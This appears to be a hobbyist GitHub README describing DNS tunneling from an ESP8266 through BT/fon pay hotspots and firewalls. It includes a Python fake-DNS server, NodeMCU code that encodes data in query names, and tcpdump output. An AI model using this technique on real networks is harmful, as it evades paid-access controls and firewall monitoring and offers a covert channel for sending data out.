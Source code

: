 # esp8266-dns

Featured on [Hackaday](https://hackaday.com/2015/07/01/dns-tunneling-with-an-esp8266/)  

# BTwifi & fon (and other hotspots) as a free transport of IOT device data using dns tunneling
_2015-06-25_

The idea was inspired by a set of events in which breaking free from being firewalled and a desperate need to gain Internet access. This is when I remembered from years ago someone came up with a way to bypass the login screens on pay as you go mobile Internet sticks. I began to research the methods used and eventually ended up coming across a package in the Debian repo called Iodine, created by Kyro(kyro.se). This program allows you to create an ipv4 over DNS tunnel. So when I got my first 2 ESP8266's it seemed obvious what should happen next with the two technologies.

The result is being able to send data to a server using dns requests to bypass any pay for hotspots, or bypass a firewall. One company to point out who has 5 million+ hotspots UK wide is BT, so there are no shortages for places to potentially send data from.

It works on the simple basis of sending a dns request to a fake DNS server which in my case is a simple python program with an NS record pointing to it. The dns request is made up of many parts, but the part we are interested in is the DNS question, this is where we want to throw our data.

**So how does it work?**

First you need to setup some records for this to work.

		server < sub.domain.com

then a nameserver record that points to the sub domain:

		sub.example.com > ns.example.com

Ok so now we have somewhere for our requests to go, but now we need a fake dns server to pick the requests up, so a simple python server to capture and parse the requests into useful data for us to use.

# dns udp server
		import socket
		from dnslib import DNSRecord

		def parsed_data(data):
		#the format im using for this is: "zz1.data.xx1.ns.example.com"
		    parsed_data = data[data.index("zz1."):data.index(".xx1")].replace("zz1.","").replace(".xx1","")
		    return parsed_data
		server = ""
		udoser = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		udoser.bind((server, 53))
		i=0
		while i == 0:
		    recv_data = udoser.recv(2048)
		    if recv_data == None:
			break
		    d = DNSRecord.parse(recv_data) #unpack the data
		    print parsed_data(str(d)) #parse and print data</pre>

		
On to the ESP8266, i installed NodeMCU because it has a lot of useful features and one of them is a simple function to do DNS requests so this saves you a ton of programming. So im using the DNS function as a quick and dirty example.

		sk=net.createConnection(net.UDP, 0)
		ens = “zz1.”
		ene = “.xx1.”
		data = "hello"
		server_address = ".ns.example.com"
		sensor_data = ens .. data .. ene .. server_address
		sk:dns(sensor_data,function(conn,ip) end)
		sk = nil</pre>

Once sent it should look like below if your doing a tcpdump of it.

		18:32:36.527658 IP (tos 0x0, ttl 53, id 0, offset 0, flags [DF], proto UDP (17), length 60)
		xx.xx.xx.xx.37254 &gt; xx.xx.xx.xxx.53: [udp sum ok] 27146 A? zz1.data.xx1.ns.example.com. (32)

When we make the request it will be sent to ns.example.com because other DNS servers wont have a record of it, once we get it we can parse out the data and use it how we like, thats all there is to it.

We place zz1 and xx1 as markers for the parser to separate out the data from the request easily, after this its up to you to choose what you do with the data, but this should open up a lot more possibilities for where you place your esp.

__This is a proof of concept and is only for educational purposes, i am not responsible for shit!__
